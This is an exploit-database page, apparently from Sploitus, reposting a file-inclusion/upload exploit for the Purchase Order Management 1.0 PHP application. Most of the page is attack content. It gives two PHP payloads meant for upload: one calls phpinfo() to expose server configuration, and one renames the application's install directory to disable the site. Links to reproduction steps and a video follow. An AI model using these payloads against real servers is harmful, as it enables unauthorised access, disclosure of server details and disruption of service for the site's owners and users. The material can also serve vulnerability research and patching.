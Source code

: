 ```yaml
---
title: Purchase Order Management - 1.0 - File Inclusion Vulnerabilities exploit
url: https://sploitus.com/exploit?id=1337DAY-ID-38250&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-03-07
fetch_date: 2025-10-04T08:47:34.471800
---
```


# Purchase Order Management - 1.0 - File Inclusion Vulnerabilities exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Purchase Order Management - 1.0 - File Inclusion Vulnerabilities

2023-03-06 | CVSS 7.1

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=1337DAY-ID-38250
## Title: Purchase Order Management-1.0 - File Inclusion Vulnerabilities - Unprivilage user interaction
## Author: nu11secur1ty
## Date: 03.06.2023
## Vendor: https://www.sourcecodester.com/user/257130/activity
## Software: https://www.sourcecodester.com/php/14935/purchase-order-management-system-using-php-free-source-code.html
## Reference: https://brightsec.com/blog/file-inclusion-vulnerabilities/

## Description:
The Purchase Order Management-1.0 suffer from File Inclusion Vulnerabilities.
The users of this system are allowed to submit input into files or upload files to the server.
The malicious attacker can get absolute control of this system!

STATUS: CRITICAL Vulnerability

[+]Get Info:

```PHP
<?php
// by nu11secur1ty - 2023
	phpinfo();
?>

```
[+]Exploit:

```PHP
<?php
// by nu11secur1ty - 2023
// Old Name Of The file
$old_name = "C:/xampp7/htdocs/purchase_order/" ;

// New Name For The File
$new_name = "C:/xampp7/htdocs/purchase_order_stupid/" ;

// using rename() function to rename the file
rename( $old_name, $new_name) ;

?>
```

## Reproduce:
[href](https://github.com/nu11secur1ty/CVE-nu11secur1ty/tree/main/vendors/oretnom23/2023/Purchase-Order-Management-1.0)

## Proof and Exploit:
[href](https://streamable.com/vkq31h)
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)